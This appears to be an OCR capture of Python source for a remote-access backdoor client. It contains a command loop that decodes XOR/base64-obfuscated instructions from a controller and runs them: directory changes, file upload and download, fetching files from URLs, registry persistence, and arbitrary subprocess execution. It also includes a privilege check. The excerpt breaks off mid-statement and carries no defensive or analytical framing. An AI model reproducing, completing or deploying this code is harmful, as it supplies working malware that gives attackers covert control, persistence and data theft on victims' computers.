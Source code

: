 ```
def startup_persist(file_name):
    pass


def is_admin():
    global admin
    if platform == "win32":
        try:
            temp = os.listdir(
                os.sep.join([os.environ.get("SystemRoot", "C:\\windows"), "temp"])
            )
        except:
            admin = "[!!] User Privileges!"
        else:
            admin = "[+] Administrator Privileges!"
    elif platform == "linux" or platform == "linux2" or platform == "darwin":
        pass


def highly_secure_payload(data, flag):
    if flag:
        data = bytearray(data.encode())
        for i in range(len(data)):
            data[i] = data[i] ^ i
        data = base64.b64encode(data).decode()
    else:
        data = bytearray(base64.b64decode(data))
        for i in range(len(data)):
            data[i] = data[i] ^ i
        data = data.decode()
    return data


def shell():
    while True:
        command = reliable_recv()
        command = highly_secure_payload(command, 0)
        if command == "quit":
            break
        elif command == "background" or command == "bg":
            pass
        elif command == "help":
            pass
        elif command == "clear":
            pass
        elif command[:3] == "cd ":
            os.chdir(command[3:])
        elif command[:6] == "upload":
            download_file(command[7:])
        elif command[:8] == "download":
            upload_file(command[9:])
        elif command[:3] == "get":
            try:
                download_url(command[4:])
                reliable_send("[+] Downloaded File From Specified URL!")
            except:
                reliable_send("[!!] Download Failed!")
        elif command[:11] == "persistence":
            reg_name, copy_name = command[12:].split(" ")
            persist(reg_name, copy_name)
        elif command[:7] == "sendall":
            subprocess.Popen(
                command[8:],
```
